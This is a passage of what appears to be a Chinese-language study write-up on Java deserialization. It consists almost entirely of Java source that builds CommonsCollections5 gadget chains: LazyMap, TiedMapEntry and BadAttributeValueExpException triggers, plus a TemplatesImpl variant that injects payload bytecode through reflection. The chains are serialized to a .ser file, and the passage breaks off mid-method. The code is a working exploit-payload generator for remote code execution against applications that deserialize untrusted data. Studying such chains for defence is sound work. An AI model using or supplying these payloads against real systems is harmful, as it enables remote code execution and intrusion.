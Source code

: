 ```
                new InstantiateTransformer(
                        new Class[]`{`Templates.class`}`,
                        new Object[]`{`tmp`}`
                )
        `}`;
        //封装chained转换链
        ChainedTransformer chian = new ChainedTransformer(trans);
        HashMap map = new HashMap();
        Map innerMap = LazyMap.decorate(map,chian);
        //构造外部的触发点
        TiedMapEntry entry = new TiedMapEntry(innerMap, "tr1ple");
        BadAttributeValueExpException val  = new BadAttributeValueExpException(null);
        Field valField = val.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(val,entry);
        //序列化
        File file;
        file =new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commonscollections5.ser");
        ObjectOutputStream obj = new ObjectOutputStream(new     FileOutputStream(file));
        obj.writeObject(val);
    `}`
`}`
```

**CommonsCollections5-2.java：（根据cc2特点生成的衍生版2）**

```
package CommonsCollections5;
import CommonsCollections4.payload;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
public class exp2 `{`
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException, CannotCompileException, NotFoundException `{`
        //封装Templates实例
        TemplatesImpl tmp = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(payload.class));
        CtClass pay_class = pool.get(payload.class.getName());
        byte[] payCode = pay_class.toBytecode();
        Class clazz;
        clazz =Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        //存储payload字节码
        Field byteCode = clazz.getDeclaredField("_bytecodes");
        byteCode.setAccessible(true);
        byteCode.set(tmp,new byte[][]`{`payCode`}`);
        Field name  = clazz.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmp,"tr1ple");
        //只需要一次invoke反射调用即可
```
